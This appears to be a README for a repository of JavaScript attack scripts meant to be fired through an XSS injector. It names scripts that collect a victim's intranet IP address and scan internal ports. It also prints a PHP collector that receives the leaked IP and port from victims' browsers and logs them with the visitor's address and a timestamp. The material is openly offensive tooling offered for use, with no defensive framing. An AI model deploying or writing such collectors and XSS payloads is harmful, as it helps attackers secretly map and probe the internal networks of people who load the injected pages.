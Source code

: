 js_attack - some .js can use with xss injector
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js:
you can make a server to hand ip:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


